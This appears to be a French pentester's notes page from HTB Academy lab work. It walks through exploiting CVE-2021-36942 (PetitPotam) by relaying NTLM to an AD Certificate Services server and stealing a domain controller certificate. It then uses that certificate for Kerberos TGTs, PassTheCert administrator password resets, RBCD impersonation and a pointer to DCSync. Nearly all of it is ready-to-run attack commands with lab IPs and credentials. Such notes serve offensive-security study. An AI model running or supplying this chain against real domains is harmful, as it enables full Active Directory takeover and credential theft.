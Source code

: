 ```yaml
---
public: true # set to true to make the article publishable
---
```

|  |  |
| --- | --- |
| CVE | [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) |
| Correctif fixant la vulnérabilité | CU-2021-08 |

## Eléments nécessaires à l'exploitation

- Un ADCS doit être présent dans le réseau


## Exploitation

### Installation de l'outil

```shell
git clone git@github.com:topotam/PetitPotam.git
```

### Utilisation

Il faut connaître le nom du serveur ADCS. On peut le trouver par diverses méthodes :
- Sous Windows : `certutil –config – -ping`
- https://www.thehacker.recipes/ad/movement/ad-cs

```shell
# Activation du relais NTLM
sudo ntlmrelayx.py -debug -smb2support --target http://<ADCS-SERVER-FQDN>/certsrv/certfnsh.asp --adcs --template DomainController

# Exploitation
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```

On capture ensuite le certificat encodé en base 64 dans les logs de ntlmrelayx pour l'utiliser ensuite pour demander un TGT 

```shell
python3 gettgtpkinit.py DOMAIN.LOCAL/DomainController$ -pfx-base64 <B64 Cert> tgt.ccache

.\Rubeus.exe asktgt /user:DomainController$ /certificate:<B64 Payload> /ptt
```

On peut ensuite finir par une attaque DCSync :
- [[Attaque DCSync depuis Linux]]
- [[Attaque DCSync depuis Windows]]


## Infos utiles

Le certificat une fois collecté en base 64 depuis ntlmrelayx peut être lu de la façon suivante :

```shell
cat cert.b64 | base64 -d > cert.pfx
sha256sum cert.pfx 
(htb) > 8806736f71db33587e684a69ccc7b683df38d31bb7d335689771ff71a34bff9f  cert.pfx
(kali)> 8806736f71db33587e684a69ccc7b683df38d31bb7d335689771ff71a34bff9f  cert.pfx
openssl x509 -in cert.pfx -text -noout

# export du certificat
openssl pkcs12 -in cert.pfx -clcerts -nokeys -out domaincontroller.crt 
# export de la clé privée (pas trouvé comment supprimer la passphrase directement)
openssl pkcs12 -in cert.pfx -nocerts -out domaincontroller.key
# suppression de la passphrase
openssl rsa -in domaincontroller.key -out domaincontroller.key # saisie de la passphrase

# informations sur le certificat
openssl x509 -in domaincontroller.crt -text
# informations sur la clé privée
openssl rsa -in domaincontroller.key -text
```

## Utilisation de PassTheCert

```shell
# Test de connection 
python passthecert.py -domain $AD_DOMAIN -dc-host $TARGET_IP -crt DC.crt -key DC.key
[*] You are logged in as: DOMAIN\DC01$

# Exploitation 1 : reset du mot de passe d'un administrateur
-target administrator -new-pass 'P@ssw0rd!'


-------------
proxychains python passthecert.py -domain 'inlanefreight.local' -dc-host 172.16.5.5 -crt /home/kali/projets/challenges/htb-academy/cpts/pivotting/active-directory/initial-enumeration/adcert/domaincontroller.crt -key /home/kali/projets/challenges/htb-academy/cpts/pivotting/active-directory/initial-enumeration/adcert/domaincontroller.key -elevate -target forend -debug -action ldap-shell

add_computer rebrec$ rebrec nospns
change_password rebrec$ rebrec



set_rbcd ACADEMY-EA-DC01$ rebrec$  # le bon je pense
> rebrec$ can now impersonate users on ACADEMY-EA-DC01$ via S4U2Proxy

# CHECK 
proxychains rbcd.py -delegate-to 'ACADEMY-EA-DC01$' -dc-ip 172.16.5.5 -action 'read' 'INLANEFREIGHT/forend:Klmcargo2'


# recherche du SPN du DC
proxychains ldapsearch -LLL -x -H ldap://172.16.5.5  -D "forend@inlanefreight.local" -W -b "dc=inlanefreight,dc=local" "servicePrincipalName=*" sAMAccountName servicePrincipalName > spns

# récupération du ST 
proxychains getST.py -spn 'cifs/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT' -impersonate 'forend' -dc-ip 172.16.5.5 'INLANEFREIGHT/rebrec$:rebrec' 






```